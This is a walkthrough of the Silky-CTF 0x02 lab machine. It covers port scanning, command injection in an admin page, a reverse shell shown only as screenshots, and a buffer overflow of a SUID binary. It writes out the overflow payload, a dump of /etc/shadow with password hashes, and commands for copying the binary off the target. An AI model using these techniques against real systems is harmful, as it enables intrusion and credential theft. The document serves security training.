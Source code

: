 # Silky-CTF 0x02

## Nmap
````
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-27 17:02 WEST
Nmap scan report for 10.0.2.33
Host is up (0.00047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 eb:74:50:5c:6f:57:04:15:bd:8c:57:ff:eb:a2:9f:58 (RSA)
|   256 97:50:40:64:05:4e:57:44:7d:31:a7:60:84:0a:9d:5c (ECDSA)
|_  256 fe:6e:fa:67:54:96:a7:bd:54:45:10:30:1c:20:c3:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.05 seconds
````

## Port 80
## Default Apache page

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/02bcf962-fc1e-4fe8-a57c-6513d694080b)


## Gobuster

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/85e64934-4d15-45cc-af37-6955be9e981b)


## /admin.php

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/84cd50c0-28ae-48e6-b7d6-aa97120e10af)


After pressing 'login', this form appears. No default credentials. Let's try SQLi. And analyze that image a bit since it seems weird. Steganography maybe?

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d2262e0a-2e1a-439b-ae48-747681a187b9)

Ran a bunch of tools against the image (strings, text editors, hexeditor, etc...) and nothing.

Got command injection on 'username' GET parameter!

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/e70a95d4-3e27-4ac9-b3e0-240e611a996f)

#### Reverse Shell

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d4eabb79-c6f5-48ef-bef4-6096ca226afd)


## Privilege Escalation

There is an interesting file with the SUID bit in our home folder. It appears to be simply catting /etc/shadow, but I'll try running it with Pspy in parallel

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/a758ef7d-b151-4639-9ba8-8f82fe62c36f)

Pspy doesn't show anything, but the program itself has an interesting output

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/8fafa8f7-1bfe-4764-a32a-52b5ff281a88)

Strings is a bit confusing, so I exfiltrated the file to my attacker machine

````
base64 cat_shadow -w0
(copy to clipboard, paste to a file inside my machine)
base64 -d b64Cat_shadow > cat_shadow
````

## Testing the binary

I fired up ghidra but I got nothing especial. I then tried a super long password in order to cause a buffer overflow, and the output on the left finally changed to something, previously it was always 0x0

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d877b364-026f-4d51-80fe-9ca3b20f5fcc)

So, I know what I have to do... And I found the position of the 4 characters that change the password

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/6363903a-9763-4cf6-982b-4b512a8a9d50)


Sending AAAA in the payload part outputs the following

``0x41414141 != 0x496c5962``

Well, it's hex to ascii. Just have to switch the bytes around...

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/fa1c1fb4-4c2c-48ff-903a-1aa5f403382a)

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/cbfd53fc-1cb5-49c7-8366-c95fa41ea2a6)

And boom! This is on my system so that's why we got permission denied. Let's try it on the victim

````
www-data@Silky-CTF0x02:/home/silky$ ./cat_shadow 0000000000000000000000000000000000000000000000000000000000000000bYlI0000000
Trying to read /etc/shadow           
Succes      
Printing...
root:$6$L69RL59x$ONQl06MP37LfjyFBGlQ5TYtdDqEZEe0yIZIuTHASQG/dgH3Te0fJII/Wtdbu0PA3D/RTxJURc.Ses60j0GFyF/:18012:0:99999:7:::
daemon:*:18012:0:99999:7:::
bin:*:18012:0:99999:7:::
sys:*:18012:0:99999:7:::
sync:*:18012:0:99999:7:::
games:*:18012:0:99999:7:::
man:*:18012:0:99999:7:::
lp:*:18012:0:99999:7:::
mail:*:18012:0:99999:7:::
news:*:18012:0:99999:7:::
uucp:*:18012:0:99999:7:::
proxy:*:18012:0:99999:7:::
www-data:*:18012:0:99999:7:::
backup:*:18012:0:99999:7:::
list:*:18012:0:99999:7:::
irc:*:18012:0:99999:7:::
gnats:*:18012:0:99999:7:::
nobody:*:18012:0:99999:7:::
systemd-timesync:*:18012:0:99999:7:::
systemd-network:*:18012:0:99999:7:::
systemd-resolve:*:18012:0:99999:7:::
systemd-bus-proxy:*:18012:0:99999:7:::
_apt:*:18012:0:99999:7:::       
dnsmasq:*:18012:0:99999:7:::
avahi-autoipd:*:18012:0:99999:7:::
messagebus:*:18012:0:99999:7:::
usbmux:*:18012:0:99999:7:::
geoclue:*:18012:0:99999:7:::
speech-dispatcher:!:18012:0:99999:7:::
rtkit:*:18012:0:99999:7:::
pulse:*:18012:0:99999:7:::
avahi:*:18012:0:99999:7:::
colord:*:18012:0:99999:7:::
saned:*:18012:0:99999:7:::
Debian-gdm:*:18012:0:99999:7:::
hplip:*:18012:0:99999:7:::
silky:$6$F0T5vQMg$BKnwGPZ17UHvqZLOVFVCUh6CrsZ5Eu8BLT1/uX3h44wtEoDt9qA2dYL04CMUXHw2Km9H.tttNiyaCHwQQ..2T0:18012:0:99999:7:::
mysql:!:18012:0:99999:7:::
sshd:*:18012:0:99999:7:::
````

Let's unshadow and crack this. So I saved the important bits of /etc/shadow and /etc/passwd to my machine

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/fdeed623-9f36-4dc2-b20f-840a38882a3e)

And now we play the waiting game

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/61254f7c-3970-4226-a1d4-4d2ee4a9f7b5)

A few minutes later

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/509b80b2-c1a9-4a5d-83f3-da8b0e8684bb)

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/965711a5-e175-4531-8208-760a556cf98d)


Really fun CTF! But I'm not sure how this relates to the OSWE
